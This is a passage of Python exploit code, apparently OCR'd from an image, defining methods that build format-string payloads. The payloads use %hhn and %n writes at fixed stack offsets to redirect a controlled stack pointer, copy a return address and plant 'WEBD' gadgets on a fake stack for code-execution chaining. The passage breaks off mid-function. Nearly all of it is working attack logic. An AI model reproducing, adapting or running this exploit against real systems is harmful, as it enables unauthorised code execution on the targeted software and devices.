 ```
        raw_payload += b"%916$hhn"  # overwrite the LSB of the looping pointer.
        payload = self.prepare_payload(raw_payload)
        self.send_payload(payload)

    def point_to_fake_stack(self, stack_offset, shift=0):
        """        Make our controlled stack pointer at offset 924 pointing to our fake stack at a given offset.        """
        raw_payload  = b""
        raw_payload += struct.pack("<L", 0x41414141)
        raw_payload += struct.pack("<L", 0x42424242)
        raw_payload += f"%{0x50 + ((stack_offset*4) + shift) - (len(raw_payload) + self.prefix_padding_size)}c".encode()
        raw_payload += b"%916$hhn"
        payload = self.prepare_payload(raw_payload)
        self.send_payload(payload)

    def point_to_ret_addr(self):
        """        Make our controlled stack pointer at offset 924 pointing to our return address (offset 111).        """
        raw_payload  = b""
        raw_payload += struct.pack("<L", 0x41414141)
        raw_payload += struct.pack("<L", 0x42424242)
        raw_payload += f"%{0x12c - (len(raw_payload) + self.prefix_padding_size)}c".encode()
        raw_payload += b"%916$hhn"
        payload = self.prepare_payload(raw_payload)
        self.send_payload(payload)

    def copy_ret_addr_to_ptr(self):
        """        Copy the return address to the controlled stack pointer at offset 924.        """
        raw_payload  = b""
        raw_payload += struct.pack("<L", 0x41414141)
        raw_payload += struct.pack("<L", 0x42424242)
        raw_payload += b"%*111$c"
        raw_payload += b"%924$n"
        payload = self.prepare_payload(raw_payload)
        self.send_payload(payload)

    def write_webd_gagdet_to_fake_stack(self, gadget_offset, stack_offset):
        """        Write WEBD gadget to our fake stack at a given offset.        """
        origin_ret_addr = 0x28a5c

        assert not (gadget_offset < origin_ret_addr & ((1<<16)-1))

        self.point_to_fake_stack(stack_offset)

        raw_payload  = b""
        raw_payload += struct.pack("<L", 0x41414141)
        raw_payload += struct.pack("<L", 0x42424242)
        raw_payload += b"%*111$c"   # we use the return address as a reference to our gadget.

        if gadget_offset - (origin_ret_addr + (len(raw_payload) + self.prefix_padding_size)) > 0:  # check if we can just increment the return address.
            offset = gadget_offset - (origin_ret_addr + (len(raw_payload) + self.prefix_padding_size))
            str_offset = str(offset+len("%999999")).ljust(len("999999") - 2, "c")
            raw_payload += f"%{str_offset}c".encode()
            raw_payload += b"%924$n"
        else:  # or if we need to overwrite the last two bytes of the return address.
            self.copy_ret_addr_to_ptr()
            offset = (gadget_offset & ((1<<16)-1) | 1 << 16) - (origin_ret_addr & ((1<<16)-1)) - (len(raw_payload) + self.prefix_padding_size)
            str_offset = str(offset+len("%999999")).ljust(len("999999") - 2, "c")
```